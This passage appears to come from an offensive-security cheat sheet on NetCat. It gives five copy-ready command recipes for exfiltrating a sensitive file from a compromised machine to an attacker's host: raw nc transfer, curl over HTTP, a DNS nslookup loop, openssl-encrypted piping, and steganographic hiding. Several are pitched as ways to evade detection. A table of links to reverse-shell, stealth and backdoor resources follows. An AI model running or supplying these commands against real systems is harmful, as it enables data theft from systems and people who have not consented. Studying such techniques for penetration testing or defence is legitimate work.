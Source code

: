 #### Data Exfiltration

NetCat can be a simple and effective tool for exfiltrating data from compromised systems.

1. **Exfiltrating Sensitive Data**: Exfiltrates `sensitive_data.txt` from the target system to the attacker.
    ```bash
    nc -l -p <attack_port> > exfiltrated_data.txt
    # On the target machine:
    nc <attack_ip> <attack_port> < sensitive_data.txt
    ```
2. **Exfiltrating Over HTTP**: Exfiltrates data over HTTP to avoid detection.
    ```bash
    curl http://<attack_ip>:<attack_port>/data -d @sensitive_data.txt
    nc -l -p <attack_port> > exfiltrated_data.txt
    ```
3. **Using DNS for Data Exfiltration**: Exfiltrates data using DNS requests, a method often overlooked by security mechanisms.
    ```bash
    while read line; do nslookup $line.<attack_domain>; done < sensitive_data.txt
    ```
4. **Exfiltration Through Encrypted Channels**: Encrypts sensitive data before exfiltration, ensuring that it remains confidential even if intercepted.
    ```bash
    openssl enc -aes-256-cbc -salt -in sensitive_data.txt | nc <attack_ip> <attack_port>
    ```
5. **Steganographic Exfiltration**: Embeds sensitive data within an image file using steganography before exfiltrating it.
    ```bash
    steghide embed -cf image.jpg -ef sensitive_data.txt
    nc -l -p <attack_port> > exfiltrated_image.jpg
    # On the target machine:
    nc <attack_ip> <attack_port> < image.jpg
    ```

# Resources

|**Name**|**URL**|
|---|---|
|NetCat Documentation|https://nmap.org/ncat/|
|GTFOBins NetCat|https://gtfobins.github.io/gtfobins/nc/|
|NetCat Usage Examples|https://www.sans.org/reading-room/whitepapers/testing/netcat-traditional-tool-technique-862|
|Reverse Shell Cheatsheet|https://highon.coffee/blog/reverse-shell-cheat-sheet/|
|NetCat Command Guide|https://www.rapid7.com/blog/post/2016/12/23/netcat-cheat-sheet/|
|Advanced NetCat Techniques|https://www.offensive-security.com/metasploit-unleashed/netcat/|
|Defensive Countermeasures Against NetCat|https://www.sans.org/white-papers/defense-mechanisms-against-netcat-attacks-970/|
|Tunneling with NetCat|https://resources.infosecinstitute.com/topic/netcat-tunneling-and-reverse-shells/|
|Stealth Techniques Using NetCat|https://securitytrails.com/blog/netcat-examples|
|Data Exfiltration Techniques|https://www.fireeye.com/blog/threat-research/2019/01/exfiltration-over-alternate-protocols.html|
|NetCat Scripting and Automation|https://null-byte.wonderhowto.com/how-to/netcat-scripting-automate-your-hacking-tasks-0175782/|
|Customizing NetCat for Specialized Operations|https://www.irongeek.com/i.php?page=security/netcat-cmd-backdoor-honeypot-scripts|